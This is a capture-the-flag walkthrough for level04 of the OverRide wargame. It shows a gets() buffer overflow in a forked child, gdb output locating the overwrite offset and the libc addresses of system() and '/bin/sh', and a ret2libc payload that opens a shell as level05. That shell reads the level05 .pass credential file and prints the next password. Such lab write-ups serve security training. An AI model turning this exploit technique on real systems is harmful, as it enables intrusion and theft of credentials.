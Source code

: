 It looks like a buffer overflow in here, but since it will happen inside the child of a fork, we won't see have a crash report.

```c
	int local_a0 [32];

	local_14 = fork();

	if (local_14 == 0) {
		prctl(1,1);
		ptrace(PTRACE_TRACEME,0,0,0);
		puts("Give me some shellcode, k");
		gets((char *)local_a0);
	}
```

After some tries, we got this :

```bash
level04@OverRide:~$ cat <(python -c 'print("AAAA" * 40)') - | ./level04 
Give me some shellcode, k
hello
wtf ?!?!
^C
```

The only way of exiting the program was for me to `ctrl+C`
With gdb, we got the same result :

```bash
level04@OverRide:~$ gdb -q level04 
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 4241]
Give me some shellcode, k
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 4241]
0x42424242 in ?? ()
```

So, as we did in rainfall, we just need to find the address of system and the string `"/bin/sh"` and we are good to go.

```assembly
(gdb) disas system
Dump of assembler code for function system:
   0xf7e6aed0 <+0>:	sub    $0x1c,%esp
```

```assembly
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

```



```bash
level04@OverRide:~$ cat <(python -c 'print("AAAA" * 39 + "\xd0\xae\xe6\xf7" + "IDGB" + "\xec\x97\xf8\xf7")') - | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

```bash
su level05
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```



